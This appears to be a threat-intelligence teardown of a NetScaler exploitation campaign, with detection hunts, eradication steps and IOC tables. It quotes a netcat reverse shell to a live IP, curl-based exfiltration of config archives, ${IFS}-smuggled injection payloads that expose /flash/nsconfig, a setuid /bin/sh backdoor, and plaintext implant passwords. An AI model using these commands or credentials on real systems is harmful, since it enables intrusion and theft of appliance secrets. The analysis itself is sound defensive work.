Then it steals: `tar czf` of all of `/nsconfig`, the `ns.conf.0` through `.bak` history files, every archive in `/var/ns_sys_backup/`, the modified `httpd.conf`, and a diagnostics bundle (uname, id, python/php/perl availability, Apache config test output, error log and ns.log tails), each uploaded via `curl -T` to `http://213.209.159.55:443/t/<token>/loot_*` before the staging directory is deleted. The diagnostics section even captures a specific slice of httpd.conf around the patch site, which reads like the author debugging failed deployments in the field.

Whatever its provenance, the bundle proves an uncomfortable point: the vendor and GTIG descriptions were complete enough that a competent operator could rebuild the entire toolchain from the writeups alone, five days after disclosure, and point it at fresh infrastructure. Published TTP detail is an API for copycats.

### Pivoting the Constants: The Second Wave Is a Campaign, Not a Curiosity

The constants extracted above are not just IOCs; they are search keys. A sweep of the public malware corpus for the extracted passwords, tokens, and callback strings (plus the file relations of every campaign IP and domain) turned the two bundles I started with into twenty, and the picture from "interesting artifact" into "active, hourly deployment campaign". Everything below was verified against sample hashes; nothing was executed. This sweep later grew into [its own follow-up post](/2026/10/03/netscaler-second-wave-constant-pivot/) with the full methodology and the traps it exposed.

**Twenty deployments in eighteen hours.** Between October 2 at 15:38 UTC and October 3 at 09:43 UTC, twenty distinct analog-kit bundles landed on VT, every one sharing the same cookie gate (`072874c28950cf7befd319d17e9709e7`) and the same exfil host (`213.209.159.55:443`), each with its own path token (`/t/380d56`, `/t/906b4f`, `/t/818f74`, `/t/a779ab`, `/t/db6c6c`, `/t/a718e4`, and so on). The bundles come in three code generations, and the diffs read like a changelog written by someone watching real deployments fail:

- generation one (25,158 bytes, eight deployments, Oct 2 15:38-20:05): the version dissected above;
- generation two (26,367-26,370 bytes, from 21:20): adds a watchdog process (`/var/tmp/.slap-watch.pid`) and reworks the setuid rationale;
- generation three (28,469-28,477 bytes, from Oct 3 03:51): adds a timestamped loot log (`/var/tmp/.s2loot.log`) and a `validate_tgz()` guard that runs `tar tzf` before every upload, which is exactly what you build after empty or truncated archives reach your server.

Roughly one deployment per hour, iterating code between them. That is automation plus an operator in the loop.

**The exfil host also serves chisel.** A 10.8MB FreeBSD binary fetched from `213.209.159.55` in sandbox runs is `chisel-freebsd-amd64` (sha256 `84f23d964ab636c81d95c3185f06a2ec628a9762dc767131d775500caf8dda0a`, go1.26.8, flagged as `hacktool.chisel/httptunnel`). So the second wave's tunnel layer is off-the-shelf chisel, hosted on the same box that collects the loot.

**Platypus enrollment count, revised.** Four full bootstraps (each with a distinct one-shot `plt_` token, all pinning the identical CA pair: ingress minted September 2, project `b51a65e0-...` minted September 28) plus two one-line installers (`dl_d3giforcdfgc5hqurluy...` on Sept 28, `dl_3wrbowpypfk26nypk6fj...` on Sept 29). One server, six enrollments across two binary identities (`ns_827664.pl`, `.ns_09343.pl`), September 28-29. The primary actor's targeting window is visible in enrollment timestamps.

**A victim artifact, and a silent implant.** A 47-byte text file uploaded September 28 is a real appliance's `/private/var/tmp/.nsmon/.cfg`: it contains `NSMON_CB=udp://192.168.100.2:4444` and `NSMON_PORT=0`, and no secret. That is nsmon.pl's hardcoded default callback, an RFC1918 address that cannot route anywhere: in at least one real deployment the dropper's environment did not reach the implant, the config was written with defaults, and the bind shell sat there phoning a lab address that does not exist. If you find `.nsmon/.cfg` on an appliance, the callback inside tells you which deployment style you are dealing with.

**Infrastructure state and history.** The `update_c08937.pl` path on `64.94.85.67` now returns 404; `/lula` on `31.56.197.72` answers with a JSON-RPC error body (the staging host fronts an API service); both wave hosts serve a bare `ok` on arbitrary paths, and probe responses are already being captured by other hunters. Passive DNS for `entretiensol.com`: `213.186.33.5` (November 2025), then `162.255.119.22` and `195.123.233.245` (both August 24, 2026, three days after the fingerprinting wave began). The C2 domain is at least nine months older than the campaign; aged infrastructure, not fresh registration.

**The mystery of the 32-hex placeholder, solved.** Searching the corpus for the template placeholder `e4d909c290d0fb1ca068ffaddf22cbd0` returns twenty hits in game-mod RAR archives and minified JavaScript bundles, which looked like a tooling lineage until I opened one: it is the canonical MD5 test vector, `md5('The quick brown fox jumps over the lazy dog.')`, which appears in the documentation comment of every JavaScript MD5 library ever shipped. The kit's author reached for the most famous hex string in computing as a placeholder. It also means the raw template panel is locked by construction: a 32-hex string in a SHA-256 comparison can never match any password, so the shell is inert until the deployment stage substitutes the real digest. Two lessons: verify content-search hits before calling them attribution, and a placeholder can be a design feature.

### Platypus: Off-the-Shelf C2, Appliance-Flavored

TENEX's staging analysis found the open-source Go framework Platypus deployed as the C2 agent, with appliance-aware tradecraft: the binary contains no C2 address at all (server and token are delivered by a bootstrap that resolved to `entretiensol.com`), it installs as `/netscaler.local/ns_*.pl` (a dotfile-style directory and `.pl` extension chosen to read as Perl tooling in a process listing), and keeps its enrollment certificate, key, and working data under `/var/core/.ns-cache/`, hiding in the core-dump directory. Tasking uses WebSocket over mutual TLS. The most detectable quirk: mesh discovery over mDNS, multicasting a `platypus-mesh.tcp` service on UDP/5353 in cleartext. A NetScaler speaking mDNS is wrong on its face, and it is one of the few places this whole campaign lights up a network sensor without any log analysis. Its certificates are self-signed with subject `platypus-ingress`, issuer "Platypus project default", and URI `platypus://server/default`.

The enrollment bootstrap (7.6KB of shell, first seen September 28) shows how serverless the agents really are. It is generated per target by the Platypus server and embeds everything the agent needs: `AGENT_HOST=entretiensol.com`, port 443, a one-shot download token in the format `plt_wqmnjp5jusrcpzicqa2t.gg3s7yppdptle5dyefxj` (the server burns it on first successful hit, per the script's own comment), the binary name `ns_827664.pl`, and the install paths `/netscaler.local/` and `/var/core/.ns-cache/`. It auto-detects eleven CPU architectures and falls back through curl, wget, and python3, pinning TLS to one of two base64-embedded certificate authorities.

Those two CAs date the infrastructure. The ingress CA (CN `Platypus project default`) has `notBefore` September 2, 2026 at 14:07 UTC, which is one day before Mandiant's earliest observed CVE-2026-88772 exploitation on September 3. A project-specific CA (CN `Platypus project b51a65e0-e20b-444d-950e-8ff34b88c472`) was minted September 28, after disclosure, suggesting a re-keyed instance mid-campaign. The C2 was standing ready before the first observed intrusion.

The agent builds on VT cover the platform matrix: FreeBSD x86-64 (8.8MB, `go1.20.14`), Linux static (two builds, stripped buildinfo), macOS arm64 (18MB, `go1.26.4`), and a 5.4MB Windows PE (stripped). Two Go generations across the set implies builds over multiple days. None of them contains `entretiensol.com` or any server address in their strings, confirming the bootstrap-delivered enrollment model and explaining why per-build IOCs are structural (paths, cert subjects, mDNS service name) rather than network. The macOS build's strings also expose the upstream open-source project's plugin surface, which includes `host_net_relay`, `host_fs_delete`, and a root-escalation module that drops `/etc/sudoers.d` entries and chowns the agent binary to root. Off-the-shelf does not mean limited.

### Living-off-the-Appliance Persistence

Three more persistence mechanisms from the TENEX and Sygnia reporting, each elegant in a different way:

**Trojanized SNMP sub-agent.** The Python stage from `23.27.143.20:9000` (the retrieved `main.py`, 551 bytes, first seen September 29) overwrites the legitimate `/var/python/bin/customsnmpd` with a five-line reverse shell to `45.141.21.130:443` (`socket`, three `dup2` calls over stdin/stdout/stderr, `subprocess.call(['/bin/sh', '-i'])`), then `pgrep -f` finds the running instance and `kill -9` ends it. The appliance's own service management restarts the trojanized file. Nothing new is created, no cron entry, no startup script; the implant is a file that is supposed to exist.

**Rogue superuser in ns.conf.** The Perl stage is `update_c08937.pl`, dissected above with its passwords; the short version of the risk: a superuser named `sec_monitor` lands directly in `/flash/nsconfig/ns.conf` with a PBKDF2 hash, survives reboots and config reloads because the config partition is the identity store, and needs one reboot to activate. Audit your `ns.conf` for accounts your change management does not know about.

**SUID shell, everywhere.** `chmod 6555 /bin/sh` appears in the GTIG, Unit 42, Sygnia, and TENEX reporting and is baked into the public PoC's shellcode. It is the cheapest possible root re-entry: any code-execution primitive, any service account, any future bug, and `/bin/sh` is a setuid root shell. `ls -l /bin/sh` showing `-rwsr-sr-x` is a five-second compromise check that belongs in every edge-device audit.

### Config Theft Without a Second Stage

Two variants steal the appliance's secrets using only the primary injection, by writing archives into web-served paths:

```
NSPPE;tar${IFS}czf$IFS/var/netscaler/gui/vpn/c$IFS-C$IFS/flash${IFS}nsconfig;
```
(Rapid7; archive then fetched with an unauthenticated `GET /vpn/c`)

```
cat /flash/nsconfig/ns.conf > /var/netscaler/logon/insight-new.js
```
(Sygnia; same idea, no archive)

```
tar${IFS}czf${IFS}/var/netscaler/logon/LogonPoint/xua.html${IFS}/flash/nsconfig
```
(TENEX)

What is in `/flash/nsconfig` and why it is worth more than the appliance itself: `ns.conf` with encrypted-but-recoverable nsroot/admin material and LDAP/RADIUS/TACACS bind passwords, TLS certificates and private keys for every vServer, SSH host keys, and license files. Rotate all of it after a suspected compromise, and treat every connection those credentials vouched for as suspect.

### The Opportunist Wave

From September 29, synchronized with the public PoC, a second and much less sophisticated population arrived: `nc 199.233.217.13 8000 -e /bin/sh`, Global Socket Toolkit pulls from `gsocket.io`, check-ins to `199.233.217.13` and `130.94.20.222`, `id` output dropped into web-readable paths. Expect this layer to keep churning; the IOCs in the appendix will age faster than the techniques above them.

## Detection and Hunting

If you run NetScalers, the following is the practical core of everything above.

**Log triage on the appliance** (Sygnia's guidance, expanded with the vendor strings; hunt at least 30 days back):

```sh
grep -E -i "pitboss|PPE|NSPPE|unexpectedly died|missed too many heartbeats" /var/log/ns.log*
grep -E -i 'pitboss.*PPE.*(missed.*too.*many.*heartbeats|unexpectedly.*died)' /var/log/ns.log*
grep -E -i '\$\{IFS\}|b64decode|curl|wget|INDEX:|2N:' /var/log/httpaccess*
grep -E -i "receiver.min|\.sig|\.ico|nsgclient|nsginstaller" /var/log/httpaccess*
```

The regex variant matters: match `missed.*too.*many` rather than the exact phrase, because the observed payloads interleave `${IFS}` and spacing varies (`heartbeatsNSPPE;` versus `heartbeats NSPPE;`). Unit 42's blocking signature takes the same approach.

**Network side** (Corelight's published Zeek hunts, verbatim):

```
#path = http | uri = /pitboss.*PPE.*(missed.*too.*many.*heartbeats|unexpectedly.*died)/i
#path = http | array:regex("client_header_values[]", flags="i", regex="pitboss.*PPE.*(missed too many heartbeats|unexpectedly died)")
#path = ssl version=/^DTLS/ server_name=/citrix|netscaler/i
#path=http user_agent=/curl|wget/i uri=/nsconmsg/i
```

Plus their HA-port hunts (UDP 3003 heartbeat, TCP 3008/3010 sync) for asset discovery, and a connection watch on `194.26.29.88`. Elastic shipped a production EQL rule for the log-poisoning pattern on September 28; NCSC-NL published detection rules as well.

**Host checks, in priority order:**

```sh
ls -l /bin/sh                         # -rwsr-xr-x = SUID backdoor
grep -En -i "application/x-httpd-php|php_flag|AliasMatch|SetHandler" /etc/httpd.conf
ls -la /tmp/.uxdport* /tmp/.uxdlock   # WHIPSHOT/SLAPSHOT
ps aux | grep -E "python.*(\.uxd|uxdport|uxdlock|base64)"
grep -i "sec_monitor" /flash/nsconfig/ns.conf
ls -la /var/core/.ns-cache/           # Platypus enrollment material
grep -rn -E "nsmon|\.slap" /etc/crontab /nsconfig/crontab /nsconfig/rc.netscaler 2>/dev/null
ls -la /var/tmp/.nsmon /nsconfig/.slap /var/tmp/.ux 2>/dev/null
ls -la /var/tmp/.slap-watch.pid /var/tmp/.s2loot.log 2>/dev/null   # analog-kit gen 2/3
sockstat -4 -l | grep -E ":(41[0-9]{3}|99[0-9]{2})"    # nsmon / analog-kit listeners
sockstat -4 -l                        # everything else unexpected
```

Do not lean on antivirus for this campaign. On their first days on VT, `.ctxs.receiver` was flagged by 1 of 94 engines, `nsmon.pl` by 1, and both staging droppers by 0. Plain PHP, Perl, and shell on an appliance have no behavioral tell for a file scanner; the grep and socket hunts above are the control that works.

**The caveats that will bite you.** A 404 on the staging request proves nothing; staging only needs the request logged (Sygnia). Patching does not evict persistence; GTIG, Unit 42, and TENEX all repeat this. In HA pairs, isolate the standby before cleaning, or httpd.conf persistence replicates back (GTIG). And per TENEX, the vendor's console IoC scanner returning clean is inconclusive (it has false negatives, including on fresh `13.1-64.23` builds); the grep-based hunts above are the stronger evidence.

## Patching and Eradication

Fixed builds (CTX697096): `14.1-73.37+`, `13.1-64.23+`, `14.1-73.37 FIPS+`, `13.1-37.279+` for 13.1-FIPS/NDcPP. One upgrade closes all eight CVEs in the bulletin. The patch gotchas worth planning around: if `show ns variable` reports configured variables, go to `13.1-64.24+` rather than `.23` (Sygnia); TENEX reports a reboot-loop condition on `13.1-64.23` (disable DTLS as an interim measure) and that fixed builds reject unsigned SAML assertions, which will surface as its own incident if your IdP flow depends on them. For CVE-2026-88778 (the ISN-predictability bug in the same bulletin), the mitigation knob is `set ns tcpparam -enhancedISNgeneration ENABLED`.

Full eradication order, merged from GTIG, TENEX, Sygnia, and the sample analysis: patch first, then hunt (logs, host checks above), remove persistence (webshells and their httpd.conf aliases, SUID shell via `chmod 555 /bin/sh`, the `sec_monitor` account, `/var/core/.ns-cache`, trojanized `customsnmpd` restored from firmware, crontab scrubbers, the `nsmon` cron lines in both crontabs, `rc.netscaler` lines referencing `/nsconfig/.slap`, and the `/var/tmp/.nsmon`, `/nsconfig/.slap`, `/var/tmp/.ux` directories), rotate every secret the appliance held (nsroot, LDAP/RADIUS/TACACS binds, TLS keys, SSH host keys; assume the `loot_nsconfig.tgz` and `update_result_*.tgz` uploads succeeded), revoke VPN and ICA/HDX sessions, and only then rejoin an HA pair.

## Why This Campaign Deserves a Folder in Your Head

Three takeaways I am keeping:

**"Execute logging" is an architecture, not a bug class.** The fatal line was a backtick around data derived from a log file. Logs on perimeter appliances are attacker-writable by definition (User-Agents, usernames, URIs). Any scheduled script that greps those logs and interpolates the results into a shell is this vulnerability waiting for its CVE. Go grep your own fleet's cron and maintenance scripts for backticks wrapping log-derived variables; that is the durable lesson of 88771, and it generalizes far beyond Citrix.

**Edge appliances get memory-corruption respect again.** The 88772 PoC's hardcoded gadget table only works because the target binary's mapping never moves. No EDR, no ASLR relief, root-everything, and a process that legitimately speaks TLS to the internet. GTIG's own framing: edge-device vulnerabilities accounted for 48% of enterprise zero-days in their prior-year data. The payload stack here (namespace-camouflaged cookies, fake-CSS aliases, log-staged installers, living-off-the-appliance persistence) is what state-grade actors build when they expect to own the box indefinitely and quietly.

**Detection asymmetry favored defenders here, briefly.** The trigger strings are loud and grep-able, the protocol quirks are unambiguous (a NetScaler multicasting mDNS, a 404 with a fat body, `/bin/sh` with setuid). Every vendor in this post published working hunts within 72 hours. The window between "public PoC" and "commodity exploitation" was minutes, but the window between "first poison line in your logs" and "irrecoverable" was days. If you have NetScalers and have not yet pulled 30 days of `ns.log` and `httpaccess`, that is the entire action item; the grep strings are above.

## Appendix A: Artifact Manifest

Everything below was collected from public sources, hashed, and analyzed statically; nothing was executed.

| Artifact | sha256 |
|---|---|
| watchTowr CVE-2026-88771 PoC | `c206c6da679260a0bb5d325ceb55984fed16a9016e8346cbe8344f59e3f76669` |
| watchTowr CVE-2026-88772 PoC | `c0f4545bc91e3d9a243fe7d131162761906b0ddd0d004965187bec6f66b0bc45` |
| craigsblackie trigger PoC (Nitro variant) | `abc8ad6c89c97d03cf00e24e0487585ffb7da049f68e2195ef4c4b87224d18cb` |
| `ns_monuploadd_err.pl`, firmware 66.59 (vulnerable) | `fb7f574a4c185fa8e520c47280939ce22899243a0083ee7120b7300c43baca29` |
| `ns_monuploadd_err.pl`, firmware 73.37 (patched) | `02b24a9923a6cee1fbee48137b7f81b7e0f5169246728b7368fc3a066c43a708` |
| Unit 42 Figure 1 (staging payload) | `45a63d5d425a7d15aaacc3eb6d766182dbe81bdb472f44feba1b7c21a25c866a` |
| Unit 42 Figure 2 (decoded script) | `926de9fe5a0b835fd5a55bd4925a12f51ef669f79150173ad8c0bd57a5531507` |
| GTI YARA (transcribed from blog) | `6d65a929c8d752aaf4f341fe84f9eb3653e049b5964c2f6af647054a88809212` |

Campaign sample hashes from vendor reporting: `ed082f744f035035900f67edf438f2f7d0528ac501234f63d476d65273cdb9a1` (.ctxs.receiver), `ae22ef2517b5c0fb47f78745b9cb5260acee0e751b89bcd354640ff8bc8d29ec` (nsg64.deb), `5ea5ea61e9062822bee3f66ef5ff47c217178d9e31936ad6daf10c5dfae44d12` (.ico webshell), `1bd314b661396c7086f6367fbbb48025e03ca2de69c073d53a8b0a38aa5fbb7d` / `79c65fa04541032e251fa4796b97800374b63c7982593dd1a2e0db605d429186` (Unit 42 staging pair), and the Arctic Wolf pack adds `73b74309f4728d169cc9edfb2767c5aadd75d39b62de93c935a86c777d2646bc`, `9c7bf01d2c2cb31a3609d27c1bc9abc60d86e37b7f9908547e0c75fb18b99aab` (nsmon.pl), `974b69782fdf5d67b97cfd508465939e44ee10798dbcc1e82b92d78776bad938` (update_c08937.pl), `927c7fbef2e620c1ce482c3ed67ebf53da97693c1d6c7552c77aec84ba982cf8` (Platypus bootstrap script). The GTI VirusTotal collection is `c794f2e5d051c46cd2ff5e429128d7e68954ba78e66735fc69362ec726e63ee4`.

The sample set verified for this teardown (first seen = first VirusTotal submission, UTC):

| sha256 (first 12) | Type | Size | First seen | Identity |
|---|---|---|---|---|
| `5ea5ea61e906` | PHP | 929 B | Sep 27 20:27 | `e6ee7c85.sig` dual-mode webshell/installer |
| `57f9f30c5024` | Shell | 151 B | Sep 28 18:19 | Platypus one-line installer (entretiensol.com) |
| `be5832f3993f` | ELF static | 5.4 MB | Sep 28 18:23 | Platypus agent (`ns_827664.pl` naming) |
| `927c7fbef2e6` | Shell | 7.6 KB | Sep 28 19:28 | Platypus enrollment bootstrap + two CAs |
| `9c7bf01d2c2c` | Perl | 3.7 KB | Sep 28 19:41 | `nsmon.pl` cron bind shell |
| `89b64bd45478` | ELF static | 5.4 MB | Sep 28 23:53 | Platypus agent (`.ns_09343.pl` naming) |
| `73b74309f472` | Shell | 249 B | Sep 29 02:55 | nsmon dropper (`/xd7h/`, UDP callback) |
| `2d2c2f684298` | ELF static | 19.2 MB | Sep 29 03:54 | Platypus agent, go1.26.4, debug build |
| `04db3fc44c81` | Mach-O arm64 | 18.2 MB | Sep 29 04:08 | Platypus agent, macOS build |
| `974b69782fdf` | Perl | 10.0 KB | Sep 29 08:36 | `update_c08937.pl` second stage |
| `e9fe43968c6c` | Python | 551 B | Sep 29 15:25 | `main.py` customsnmpd trojan |
| `7add390ceee4` | PHP | 999 B | Sep 29 20:11 | `nsgtrust.deb` installer webshell |
| `ed082f744f03` | PHP | 237 B | Sep 30 15:51 | `.ctxs.receiver` cookie webshell |
| `0dcac605a3a0` | PE32+ | 5.4 MB | Oct 1 19:50 | Platypus agent, Windows build (stripped) |
| `c98aee75c5e1` | ELF FreeBSD | 18.6 MB | Oct 1 20:20 | Platypus agent, FreeBSD, go1.26.4 |
| `0188b0eba4b0` | ELF FreeBSD | 8.8 MB | Oct 2 11:49 | Platypus agent, FreeBSD, go1.20.14 |
| `72cff13fcba7` | Perl | 25.1 KB | Oct 2 16:52 | SLAPSHOT/WHIPSHOT "analog" kit, token `380d56` |
| `b9b0a4380db4` | Perl | 25.1 KB | Oct 2 17:29 | same kit, token `ae7427` |

Full hashes for the sample set, in table order:

```
5ea5ea61e9062822bee3f66ef5ff47c217178d9e31936ad6daf10c5dfae44d12  57f9f30c50240fd48d761de7961a430cdebf2c084a36bc76d376a1ce8e6dfa9d
be5832f3993ff63a36100b2f7b89c8d385e20dd9d72876700e7ade9fb9e6d4cb  927c7fbef2e620c1ce482c3ed67ebf53da97693c1d6c7552c77aec84ba982cf8
9c7bf01d2c2cb31a3609d27c1bc9abc60d86e37b7f9908547e0c75fb18b99aab  89b64bd45478e53299f9c422cbba40fac3ac0712b551b85185e38203f7f984c6
73b74309f4728d169cc9edfb2767c5aadd75d39b62de93c935a86c777d2646bc  2d2c2f6842982f7e1cb894ce915d39f2a9861009c7ecb1b90da803f2c3c608f4
04db3fc44c81886844ef47949d7f352953a6bf1be4866be1fb3e7e12c452e3ac  974b69782fdf5d67b97cfd508465939e44ee10798dbcc1e82b92d78776bad938
e9fe43968c6c0955300e3bc4d7fb0b05a18570b4733aaf4f5c6f7f09be5a242c  7add390ceee4a1373211b3e340451b34f08965fc4d805f94c9b8cebdc0775774
ed082f744f035035900f67edf438f2f7d0528ac501234f63d476d65273cdb9a1  0dcac605a3a0c37001552369a6a77003226b35ddee7710b554fcd0e6809a76d1
c98aee75c5e199c9b5527984ce48675d665963f7cab8ce9f2e82465de6b58727  0188b0eba4b01c4fb838df9d1d76c76d7f1dc22897e25161975b606c134c1027
72cff13fcba75504485e94fa6bfc5e9363e860f49efdba68feb583148eec38f2  b9b0a4380db462c706597bd3e6a08d4d99fcbbf0919d63eb99b488d396c8ce63
```

Four hashes from the reporting have no published sample: `1bd314b661396c7086f6367fbbb48025e03ca2de69c073d53a8b0a38aa5fbb7d`, `6f5a2a452a7901323abd21879c6cecccb47c06aeeaccb1b467212f3b11e4b1e7`, `79c65fa04541032e251fa4796b97800374b63c7982593dd1a2e0db605d429186`, and `ae22ef2517b5c0fb47f78745b9cb5260acee0e751b89bcd354640ff8bc8d29ec` (Unit 42's nsg64.deb among them).

Second-wave samples surfaced by the constant pivot ("Pivoting the Constants" section; first seen = first VT submission, UTC):

| sha256 | Type | Size | First seen | What it is |
|---|---|---|---|---|
| `e5441b7d3d9d705fc6db8befc44974f13172267a42b7c9ca05a0144fca92e873` | Text | 47 B | Sep 28 19:44 | victim nsmon `.cfg`, default callback `udp://192.168.100.2:4444`, no secret |
| `90275ff480ba1e9e6a9c95e78dda748b7155ae71be6886564ef0253cfe10c1a7` | Shell | 6.9 KB | Sep 28 20:22 | Platypus bootstrap, token `plt_wsemghw6hwzpjvcniwth.hwsh4pr63ue7gt22vnuq`, bin `ns_827664.pl` |
| `008bfca8c2ec448377f02b2366a84dcdc541ca94042a3f2c63dd905bcd730c` | Shell | 7.0 KB | Sep 28 23:48 | Platypus bootstrap, token `plt_2uhfcg6a7npuwiuaiakb.w6rgc3kclkuwh7nhgr2h`, bin `.ns_09343.pl` |
| `a2a907bc713fecac111d513e12311a0da983de50893ce1ac236e22eb9aa77ba1` | Shell | 151 B | Sep 29 04:05 | second Platypus one-line installer, token `dl_3wrbowpypfk26nypk6fj.erlcdi3xomfglunnik66` |
| `beb04a1b3caf49af286ca4f733846fe2ec7719e2a8181590b66295876ee1158e` | JSON | 125 B | Sep 29 11:30 | staging response from `31.56.197.72/lula`: JSON-RPC error body |
| `c706c2422dda5c1e485b8ead8c52b2618f1df7696b0066b4dd6b76300c8aea24` | Shell | 7.6 KB | Sep 29 15:03 | Platypus bootstrap, token `plt_znwetalqffjpztwndwvq.54ftkhp2n63qalhltgbv`, bin `.ns_09343.pl` |
| `84f23d964ab636c81d95c3185f06a2ec628a9762dc767131d775500caf8dda0a` | ELF | 10.8 MB | Oct 1 14:21 | `chisel-freebsd-amd64` served from the exfil host (`hacktool.chisel`, go1.26.8) |
| `2220044a55da27f7c528d5a5da1d26d15bae966a85c440b084c57ab0798a96d7` | Perl | 25,158 B | Oct 2 15:38 | analog-kit gen 1, exfil token `906b4f` |
| `e8f594f94965ac4d51c89e99d4c5026fe6f64503ffd63a82fb465b9aa62b8740` | Perl | 25,158 B | Oct 2 15:59 | gen 1, token `818f74` |
| `740daa04c2f66eede7576b11a57dc11a1ddb5896244ed6d3cc428bd134d7425f` | Perl | 25,158 B | Oct 2 16:33 | gen 1, token `a779ab` |
| `53e61abcf0dcb9de2044968c5e72e60c03df2e485b1aaf8581e7268a8486a6a1` | Perl | 25,158 B | Oct 2 16:50 | gen 1, token `324d58` |
| `72cff13fcba75504485e94fa6bfc5e9363e860f49efdba68feb583148eec38f2` | Perl | 25,158 B | Oct 2 16:52 | gen 1, token `380d56` |
| `b9b0a4380db462c706597bd3e6a08d4d99fcbbf0919d63eb99b488d396c8ce63` | Perl | 25,158 B | Oct 2 17:29 | gen 1, token `ae7427` |
| `767f2c349857b42157cd7a73ce8223f4f6ac9135d63b1321960df8570bf0f3a8` | Perl | 25,158 B | Oct 2 17:48 | gen 1, token `29a04f` |
| `10517f49ef2fc81ffde667fd300b2677749b9c1604b7c35379535bf0d9bf6833` | Perl | 25,158 B | Oct 2 20:05 | gen 1, token `1f0a10` |
| `ec6d42cc99e3c7870dc11606643e8b296e4aadafaf886f05506e1f515aa55eee` | Perl | 26,367 B | Oct 2 21:20 | gen 2 (watchdog), token `9c3166` |
| `12b15fe585a21d33eeb863fc5a246596225a77185a314d55de3c980bbe11e9c0` | Perl | 26,370 B | Oct 2 21:39 | gen 2, token `3b6d2f` |
| `83307fb218b557a0a1cab46e094b038f9b795d2d02bd04ac7ce4e0d3eb4ec8c3` | Perl | 26,370 B | Oct 2 21:39 | gen 2, token `471d83` |
| `b9bc8d87ef77f63082445f5664e02a84db568f6d8147e077b97dc15df9f2a36b` | Perl | 26,367 B | Oct 2 21:53 | gen 2, token `274124` |
| `12ff1448594844ffe072674e4da36c2bb92bce19bfdf494bcae0542ce6e1731a` | Perl | 26,367 B | Oct 3 01:00 | gen 2, token `818f74` (re-deploy) |
| `4b0c3ebbe916831371b16cc4226079b6abde97245f24e5aa868a9786d4b2a152` | Perl | 26,367 B | Oct 3 01:32 | gen 2, token `db6c6c` |
| `d04663bdab3183c94381d19eec7af59f90890497d5ad95c7af1c00d0fe8901dc` | Perl | 28,469 B | Oct 3 03:51 | gen 3 (loot log + validate), exfil path built at runtime |
| `0a7f88a74e82725e8ceaf9aa0b25b43c43105ff7653b29a0cbba94ce40b04447` | Perl | 28,474 B | Oct 3 03:58 | gen 3, token `861cd3` |
| `602b859d38c02c559f62e5c6f7ba30265b2ffd7faf528a3b0151727c7a1dc2d3` | Perl | 28,477 B | Oct 3 07:03 | gen 3, token `62cd78` |
| `899299dcaa6531e450cfc844f7948bc3180c6cbebc43cf751e65ee261f6732cd` | Perl | 28,474 B | Oct 3 07:29 | gen 3, token `6f3c3e` |
| `74da9485815ee124e2ebe155dbcfb758b54bd97760956998abf64838c865f78b` | Perl | 28,474 B | Oct 3 09:43 | gen 3, token `a718e4` |

## Appendix B: IOC Index

**IPs.** 88771 injection: `149.104.78.208` (Rapid7). Staging/C2: `64.94.85.67`, `62.133.62.80` (UDP 39725 + HTTP 80 `/xd7h/`), `31.56.197.72`, `23.27.143.20`, `45.141.21.130`, `199.233.217.13`, `130.94.20.222`, `194.26.29.88`, `143.198.7.94`, `157.254.167.12`; analog-kit exfil `213.209.159.55:443` (also serves chisel), exfil path tokens `/t/{380d56,ae7427,906b4f,818f74,a779ab,324d58,29a04f,1f0a10,9c3166,3b6d2f,471d83,274124,bad2ad,db6c6c,861cd3,a718e4,6f3c3e,62cd78}`; historical `entretiensol.com` resolutions `213.186.33.5` (2025-11), `162.255.119.22`, `195.123.233.245` (2026-08-24). Unit 42 chain: `45.61.136.143`, `66.227.183.84`, `77.83.199.39`, `104.28.215.137`, `104.28.215.136`, `104.248.244.66`, `104.248.74.206`, `104.28.247.136`, `104.28.247.137`, `162.33.178.9`, `193.149.176.207`, `216.245.184.164`, `66.135.19.18`, `167.99.111.203`, `142.93.85.227`, `137.184.91.207`, `78.47.24.217`, `139.180.152.138`. Sygnia: `45.76.34.141`, `209.250.236.77`, `138.68.21.29`, `170.64.176.26`.

**Domains.** `entretiensol.com` (Platypus, port 443; install path `/api/v1/install/dl_d3giforcdfgc5hqurluy.ctzlc5tkt3w6p5flcmnq`), `gsocket.io` (opportunist tooling).

**Paths and files.** `/netscaler/ns_monuploadd_err.pl`; `/var/log/ns.log*`, `/var/log/messages`, `/var/log/httpaccess*`; `/var/netscaler/logon/LogonPoint/custom/.ctxs.receiver`; `/var/netscaler/logon/LogonPoint/.local_journal`; `/var/netscaler/logon/LogonPoint/{xua.html,insight-new.js}`; `/vpn/scripts/linux/nsg{client18,ser18,support,package64,build,64,installer,trust}*.deb`; `/var/netscaler/gui/vpn/scripts/linux/{e6ee7c85.sig,1bd8a664.sig,80974ca9.sig,LoginIcon.sig}`; `/netscaler/ns_gui/vpn/c88771.json`; `/etc/httpd.conf` (plus `/etc/httpd.conf.slap.bak`); `/flash/nsconfig/ns.conf`; `/var/python/bin/customsnmpd`; `/var/netscaler/.ns_suidcmd`; `/netscaler.local/ns_*.pl`; `/var/core/.ns-cache/`; `/tmp/{.uxdport,.uxdlock,1.py}`; `/var/tmp/.nsmon/` (nsmon.pl, `.cfg`, `.state`, `log`); `/nsconfig/.slap/` (agent.pl, bridge.pl, boot.sh); `/var/tmp/.ux/` (slapshot.py, whipd.py); `/tmp/update_result_3567cs.tgz`; `/bin/sh` (mode 6555).

**Accounts, keys, cookies.** `wfr` (observed target account), `scanner-probe` (recon), `sec_monitor` (rogue superuser, password `ay#39&RGYvv4Xuzy`); `.local_journal` webshell password `QI@UEG5PC7oRt31E` (deployed hash replaces template placeholder `e4d909c290d0fb1ca068ffaddf22cbd0`, which is the MD5 test vector of "The quick brown fox jumps over the lazy dog."); RC4 key `7489a0f93c67fa5cdaeb4b921d90594d` = MD5(`Rhfajaf1H992`); cookie gates `CsrfToken=e826d7ddf3c85920` (command cookie `NSC_TASS`) and `CsrfToken=072874c28950cf7befd319d17e9709e7` (analog kit, command cookie `CsrfToken2`); nsmon callback secret `y7lg7jq57b` and hardcoded default callback `udp://192.168.100.2:4444`; Platypus enrollment tokens `plt_wqmnjp5jusrcpzicqa2t.gg3s7yppdptle5dyefxj`, `plt_wsemghw6hwzpjvcniwth.hwsh4pr63ue7gt22vnuq`, `plt_2uhfcg6a7npuwiuaiakb.w6rgc3kclkuwh7nhgr2h`, `plt_znwetalqffjpztwndwvq.54ftkhp2n63qalhltgbv`, `dl_d3giforcdfgc5hqurluy.ctzlc5tkt3w6p5flcmnq`, `dl_3wrbowpypfk26nypk6fj.erlcdi3xomfglunnik66`; Platypus project UUID `b51a65e0-e20b-444d-950e-8ff34b88c472`; staging markers `INDEX:` and `2N:`.

